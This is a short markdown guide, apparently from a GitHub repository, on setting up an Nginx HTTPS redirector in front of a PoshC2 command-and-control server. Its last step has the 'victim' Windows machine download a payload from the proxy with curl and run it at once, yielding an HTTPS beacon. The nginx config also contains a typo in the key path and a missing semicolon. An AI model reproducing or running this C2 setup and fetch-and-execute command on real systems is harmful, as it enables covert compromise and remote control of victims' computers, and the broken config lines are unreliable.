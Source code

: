 # How to Setup SSL in Nginx

1. First if your poshc2 is still running on port `80` we need to start a new project with using `443`
2. Now lets add our Poshc2 ssl certs to nginx
    ```bash
    scp {posh.crt,posh.key} username@<ubuntu-proxy-ip>:.
    ```
    > **NOTE:** This command will scp both files to the users `home` folder
3. Now lets move our ssl certs from our home directory to `/etc/nginx/`
    ```bash 
    mv {posh.crt,posh.key} /etc/nginx/.
    ```
    > **NOTE:** Make sure you are in your users home folder `/home/<usernmae>
4. Then lets move over to our ubuntu server and edit our `/etc/nginx/conf.d/lp_proxy.conf` and add our SSL rules under our rules for 80 coms
    ```nginx
    server {
        listen 443;
        server_name <ubuntu_server_ip>

        ssl_certificate /etc/nginx/posh.crt;
        ssl_certificate_key /etc/nginc/posh.key;
        ssl on;

        location / {
            proxy_pass https://192.168.178.128;
        }
    }
    ```

5. Now we just reload our nginx service and it should apply all our changes
6. On our Windows Vict. lets download our hosted payload through our proxy using `curl`
    ```bash
    curl -k https://192.168.178.132/<poshc2-uri> -o apples.exe && .\apples.exe
    ```
7. Boom you now have a HTTPS beacon. 